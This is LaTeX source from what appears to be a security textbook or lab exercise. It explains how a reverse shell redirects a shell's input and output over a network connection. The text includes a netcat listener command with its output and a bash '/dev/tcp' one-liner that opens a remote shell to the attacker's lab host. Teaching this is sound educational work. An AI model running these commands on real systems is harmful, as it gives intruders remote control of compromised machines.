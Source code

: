 


The key idea of reverse shell is to redirect its standard input, output, and error devices to a
network connection, so the shell gets its input from the connection, and prints out its output
also to the connection. At the other end of the connection is a program run by the
attacker; the program simply displays whatever comes from the shell at the other end,
and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is
\texttt{netcat}, which, if running
with the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the
specified port. This server program basically prints out whatever is sent by the client, and
sends to the client whatever is typed by the user running the server.
In the following experiment, \texttt{netcat} (\texttt{nc} for short) is used
to listen for a connection on port \texttt{9090}~(let us focus only on the first line).


\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via some attacks.
This bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

